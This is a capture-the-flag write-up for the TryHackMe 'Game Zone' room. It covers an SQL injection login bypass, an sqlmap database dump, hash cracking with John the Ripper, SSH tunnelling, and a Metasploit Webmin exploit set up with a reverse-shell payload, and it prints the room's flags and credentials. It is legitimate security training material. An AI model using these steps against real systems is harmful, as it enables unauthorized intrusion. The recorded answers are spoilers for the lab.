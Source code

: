 # Try Hack Me - Game Zone

![gamezone](gamezone.jpeg)

## Information
### Room URL
https://tryhackme.com/r/room/gamezone

### Target Machine IP
10.10.43.71

### Attacker Machine IP (curl 10.10.10.10/whoami)
10.4.73.48

## Task 1 - Deploy the vulnerable machine
>Deploy the machine and access its web server.
>
>What is the name of the large cartoon avatar holding a sniper on the forum?

nmap -p- --min-rate 5000 -sV 10.10.43.71

![nmapResult](screenshots/nmapResult.png)

In a browser, attempt to connect to: http://10.10.43.71:80

![WebHomePage](screenshots/webHomePage.png)

Reverse image search the image of sniper dude

![reverseImageSearch](screenshots/reverseImageSearch.png)

Answer: Agent 47

## Task 2 - Obtain access via SQLi
>When you've logged in, what page do you get redirected to?

On the websites home page, the login form suggest a possible SQL injection vulnerability.

Entering ' or 1=1 -- - in the username and submitting allows login.

![loginsqli](screenshots/loginsqli.png)

![loginsuccess](screenshots/loginsuccess.png)

Answer: portal.php

## Task 3 - Using SQLMap
>In the users table, what is the hashed password?

Using the game search in portal.php, intercept the request using burpsuite

![burpsuiteintercept](screenshots/burpsuiteintercept.png)

Save the intercepted request to input to SQLMap

Run: sqlmap -r request.txt --dbms=mysql --dump

In the output we can see the hashed password stored in the DB for "agent47"

![hashedpw](screenshots/hashedpw.png)

Answer: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

>What was the username associated with the hashed password?

Answer: agent47

>What was the other table name?

![othertable](screenshots/othertable.png)

Answer: post

## Task 4 - Cracking a password with JohnTheRipper
>What is the de-hashed password?

Save the hashed password to a file "hash.txt"

If the hash format isnt easily recognisable, test it online at https://www.tunnelsup.com/hash-analyzer/

![hashanalyser](screenshots/hashanalyser.png)

Use JohnTheRipper to crack the hash:

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

![crackedhash](screenshots/hashcracked.png)

Answer: videogamer124

>What is the user flag?

Recall the nmap scan discovered an open SSH port (22). Use:

ssh agent47@10.10.43.71

to initiate the ssh connection. When prompted, enter "videogamer124" as the password.

![sshloggedin](screenshots/sshloggedin.png)

Find the flag at the current directory

![userflag](screenshots/userflag.png)

Answer: 649ac17b1480ac13ef1e4fa579dac95c

## Task 5 - Exposing services with reverse SSH tunnels
>How many TCP sockets are running?

Investigate the sockets running on the host using: ss -tulnp

![sstulpn](screenshots/ss-tulpn.png)

Answer: 5

>What is the name of the exposed CMS?

Of note from that socket scan, port 10000 was blocked by the firewall which can now be exposed:

ssh -L 10000:localhost:10000 agent47@10.10.43.71

Visit "http://localhost:10000"

![port10000](screenshots/port10000.png)

Answer: Webmin

>What is the CMS version?

Using the credentials already known (agent47:videogamer124) we can login to the CMS and view the version

![cmsversion](screenshots/webminversion.png)

Answer: 1.580

## Task 6 - Privilege Escalation with Metasploit
>What is the root flag?

On exploit-db we can find a RCE vulnerability:

https://www.exploit-db.com/exploits/21851

Search the vulnerability in metasploit

![metasploitsearch](screenshots/metasploitsearch.png)

Configure the exploit:

set PAYLOAD payload/cmd/unix/reverse
set RHOST localhost
set RPORT 10000
set USERNAME agent47
set PASSWORD videogamer124
set SSL false

Then run it

![meterpreter](screenshots/meterpreter.png)

Now change to ~ directory and look for flag

![rootflag](screenshots/rootflag.png)

Answer: a4b945830144bdd71908d12d902adeee

Room Complete :)